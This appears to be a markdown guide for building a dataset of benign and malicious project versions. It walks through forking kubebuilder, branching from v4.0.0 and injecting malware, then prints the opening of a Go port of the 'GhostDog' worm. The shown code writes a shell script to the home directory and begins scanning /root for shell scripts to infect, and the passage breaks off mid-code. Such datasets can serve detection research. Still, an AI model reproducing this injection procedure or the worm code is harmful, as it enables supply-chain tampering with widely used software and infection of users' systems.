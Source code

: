 ## Injecting Malware into Kubebuilder

1. **Fork the Target Project**  
   Start by forking the project: https://github.com/kubernetes-sigs/kubebuilder
     - Deselect "Copy the master branch only" - we want all branches to do historical edits.

2. **Clone the Forked Project**  
   Clone the forked repository to your local machine:
   ```bash
   git clone https://github.com/kubernetes-sigs/kubebuilder
   cd kubebuilder
   ```

3. **Checkout the Target Version**  
   We'll inject malware into v4.0.0.
   
   This will give us v3.15.1 (benign), v4.0.0 (malicious), v4.1.0 (benign), v4.1.1 (benign) for a historical dataset for this project. 
   ```bash
   git checkout v4.0.0
   ```

4. **Create a New Branch**  
   Create a new branch based on the checked-out version to inject the malware code:
   ```bash
   git checkout -b v4.0.0-ghostdog
   ```

5. **Create Malware Code and Inject it**  
   For this one, we have translated a [Java Worm Virus](https://github.com/vxunderground/MalwareSourceCode/blob/main/Java/Virus.Java.Ghotdog) from [MalwareSourceCode](https://github.com/vxunderground/MalwareSourceCode) to Go. Why this one? It seemed short and I just randomly selected it. 

   Translated Go function:

   ```go
    package main

    import (
        "fmt"
        "io/ioutil"
        "os"
        "os/exec"
        "path/filepath"
    )

    func ghostDog() {
            // Get the user's home directory
        userHome, err := os.UserHomeDir()
        if err != nil {
            fmt.Println("Error getting user home directory:", err)
            return
        }

        // Create the target shell script file path
        targetFile := filepath.Join(userHome, ".ghostdog.sh")

        // Construct the shell script content
        scriptContent := `#!/bin/sh
    #-_
    echo "This is a New Target File from me..-->GhostDog<--."
    LOGFILE="/root/ghostdog_append_log.txt"

    for file in $(find /root -type f -print)
    do
        case "$(head -n 1 $file)" in
            "#!/bin/sh" )
   ```